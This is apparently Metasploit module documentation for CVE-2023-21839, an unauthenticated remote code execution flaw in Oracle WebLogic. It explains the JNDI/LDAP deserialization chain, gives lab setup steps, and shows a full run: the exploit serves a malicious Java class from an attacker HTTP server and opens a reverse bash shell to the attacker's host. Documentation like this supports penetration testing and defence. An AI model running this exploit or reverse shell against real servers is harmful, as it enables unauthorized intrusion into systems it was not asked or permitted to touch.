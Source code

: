 ## Vulnerable Application

### Description
Oracle Weblogic 12.2.1.3.0, 12.2.1.4.0 and 14.1.1.0.0 prior to the Jan 2023 security update are vulnerable to an unauthenticated
remote code execution vulnerability due to a post deserialization vulnerability. This occurs when an attacker serializes
a `ForeignOpaqueReference` class object, deserializes it on the target, and then post deserialization, calls the
object's `getReferent()` method, which will make use of the `ForeignOpaqueReference` class's `remoteJNDIName` variable,
which is under the attackers control, to do a remote loading of the JNDI address specified by `remoteJNDIName` via
the `lookup()` function.

This can in turn lead to a deserialization vulnerability whereby an attacker supplies the address of a HTTP server hosting
a malicious Java class file, which will then be loaded into the Oracle Weblogic process's memory and an attempt to
create a new instance of the attacker's class will be made. Attackers can utilize this to execute arbitrary Java
code during the instantiation of the object, thereby getting remote code execution as the `oracle` user.

This module exploits this vulnerability to trigger the JNDI connection to a LDAP server we control. The LDAP server will
then respond with a remote reference response that points to a HTTP server that we control, where the malicious Java
class file will be hosted. Oracle Weblogic will then make a HTTP request to retrieve the malicious Java class file,
at which point our HTTP server will serve up the malicious class file and Oracle Weblogic will instantiate
an instance of that class, granting us RCE as the `oracle` user.

This vulnerability was exploited in the wild as noted by KEV on May 1st 2023: https://www.fortiguard.com/outbreak-alert/oracle-weblogic-server-vulnerability

## Verification Steps

1. Make sure you have Docker and Docker Compose installed. If not follow https://docs.docker.com/engine/install.
2. `git clone git@github.com:vulnhub/vulnhub.git`
3. `cd weblogic/CVE-2023-21839/cmd`
4. `docker-compose up -d` and wait for the build to finish, then a few seconds for startup.
5. Do: `use exploit/multi/iiop/cve_2023_21839_weblogic_rce`
6. Do `set SRVPORT *some high port*` for LDAP server port number since we can't listen on the default port `389` without being `root`.
7. Do `set HTTP_SRVPORT *port*` if you want to change the HTTP server port.
8. Do `set RHOSTS 127.0.0.1` to target the local Docker instance.
9. Do `set SRVHOST *LDAP server IP address*` for LDAP server host. NOTE: Have to provide a routeable IP address, 0.0.0.0 won't work.
10. Do `set LHOST *IP address of Metasploit machine*`
11. Do: `exploit`
12. Verify that you get a shell on the target system as the `oracle` user.


## Options

### HTTP_SRVPORT
The port where the HTTP server will listen.

### SRVPORT
The port where the LDAP server will listen.

### SRVHOST
The IP address where where the LDAP server will be listening.

## Scenarios

### Oracle Weblogic 12.2.1.3 with Java 1.8.0_151-b12 - Docker Image
```
msf exploit(multi/iiop/cve_2023_21839_weblogic_rce) > show options

Module options (exploit/multi/iiop/cve_2023_21839_weblogic_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HTTP_SRVPORT  8089             yes       The HTTP server port
   LDIF_FILE                      no        Directory LDIF file path
   RHOSTS        127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         7001             yes       The target port (TCP)
   SRVHOST       192.168.204.149  yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       4939             yes       The local port to listen on.


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.204.149  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux



View the full module info with the info, or info -d command.

msf exploit(multi/iiop/cve_2023_21839_weblogic_rce) > check
[+] 127.0.0.1:7001 - The target is vulnerable. Target is a Oracle WebServer 12.2.1.3 server, and is vulnerable!
msf exploit(multi/iiop/cve_2023_21839_weblogic_rce) > exploit

[*] Started reverse TCP handler on 192.168.204.149:4444 
[*] 127.0.0.1:7001 - Running automatic check ("set AutoCheck false" to disable)
[+] 127.0.0.1:7001 - The target is vulnerable. Target is a Oracle WebServer 12.2.1.3 server, and is vulnerable!
[*] 127.0.0.1:7001 - 1. Making T3 connection...
[+] 127.0.0.1:7001 - Made T3 connection!
[*] 127.0.0.1:7001 - 2. Sending first GIOP LocateRequest packet
[+] 127.0.0.1:7001 - Step 2 complete!
[*] 127.0.0.1:7001 - 3. Sending rebindAny request!
[+] 127.0.0.1:7001 - Step 3 complete!
[*] 127.0.0.1:7001 - 4. Sending second rebindAny request!
[+] 127.0.0.1:7001 - Step 4 complete!
[*] 127.0.0.1:7001 - 5. Sending second GIOP LocateRequest packet
[+] 127.0.0.1:7001 - Step 5 complete!
[*] 127.0.0.1:7001 - 6. Sending resolve packet #1 with wls_key_1
[+] 127.0.0.1:7001 - Step 6 complete!
[*] 127.0.0.1:7001 - Serving Java code on: http://192.168.204.149:8089/PayloadRuns.class
[*] 127.0.0.1:7001 - 7. Sending resolve packet #2 with wls_key_2
[+] 127.0.0.1:7001 - Step 7 complete!
[*] 127.0.0.1:7001 - Sleeping for 8 seconds to allow LDAP and HTTP traffic to go through.
[*] Command shell session 1 opened (192.168.204.149:4444 -> 172.18.0.2:46440) at 2023-05-17 16:48:56 -0500

id
uid=1000(oracle) gid=1000(oracle) groups=1000(oracle)
whoami
oracle
uname -a 
Linux 8e6d76ecdb0d 5.19.0-41-generic #42~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Tue Apr 18 17:40:00 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
pwd
/u01/oracle/user_projects/domains/base_domain
```
